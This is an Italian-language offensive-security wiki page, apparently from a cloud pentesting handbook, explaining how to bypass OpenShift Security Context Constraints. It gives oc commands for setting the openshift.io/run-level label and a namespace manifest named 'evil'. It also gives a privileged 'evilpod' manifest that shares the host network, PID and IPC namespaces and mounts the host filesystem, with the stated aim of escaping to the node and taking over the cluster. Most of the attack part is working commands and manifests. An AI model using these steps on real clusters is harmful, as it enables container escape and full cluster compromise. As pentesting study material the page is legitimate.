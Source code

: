 # Openshift - SCC bypass

**L'autore originale di questa pagina è** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespace privilegiati

Per impostazione predefinita, SCC non si applica ai seguenti progetti:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Se distribuisci pod all'interno di uno di questi namespace, non verrà applicato alcun SCC, consentendo la distribuzione di pod privilegiati o il montaggio del file system host.

## Etichetta del Namespace

Esiste un modo per disabilitare l'applicazione di SCC sul tuo pod secondo la documentazione di RedHat. Dovrai avere almeno uno dei seguenti permessi:

- Creare un Namespace e Creare un Pod in questo Namespace
- Modificare un Namespace e Creare un Pod in questo Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
L'etichetta specifica `openshift.io/run-level` consente agli utenti di eludere le SCC per le applicazioni. Secondo la documentazione di RedHat, quando questa etichetta è utilizzata, nessuna SCC è applicata a tutti i pod all'interno di quel namespace, rimuovendo di fatto qualsiasi restrizione.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Aggiungi Etichetta

Per aggiungere l'etichetta nel tuo namespace :
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Per creare un namespace con l'etichetta tramite un file YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Ora, tutti i nuovi pod creati nello spazio dei nomi non dovrebbero avere alcun SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In assenza di SCC, non ci sono restrizioni sulla definizione del tuo pod. Questo significa che un pod malevolo può essere facilmente creato per evadere sul sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Ora è diventato più facile elevare i privilegi per accedere al sistema host e successivamente prendere il controllo dell'intero cluster, guadagnando privilegi 'cluster-admin'. Cerca la parte **Node-Post Exploitation** nella seguente pagina:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Etichette personalizzate

Inoltre, in base alla configurazione target, alcune etichette / annotazioni personalizzate possono essere utilizzate nello stesso modo dello scenario di attacco precedente. Anche se non è stato creato per, le etichette potrebbero essere utilizzate per concedere permessi, limitare o meno una risorsa specifica.

Cerca etichette personalizzate se puoi leggere alcune risorse. Ecco un elenco di risorse interessanti:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Elenca tutti i namespace privilegiati
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploit avanzato

In OpenShift, come dimostrato in precedenza, avere il permesso di distribuire un pod in uno spazio dei nomi con l'etichetta `openshift.io/run-level` può portare a un takeover diretto del cluster. Dal punto di vista delle impostazioni del cluster, questa funzionalità **non può essere disabilitata**, poiché è intrinseca al design di OpenShift.

Tuttavia, misure di mitigazione come **Open Policy Agent GateKeeper** possono impedire agli utenti di impostare questa etichetta.

Per bypassare le regole di GateKeeper e impostare questa etichetta per eseguire un takeover del cluster, **gli attaccanti avrebbero bisogno di identificare metodi alternativi.**

## Riferimenti

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
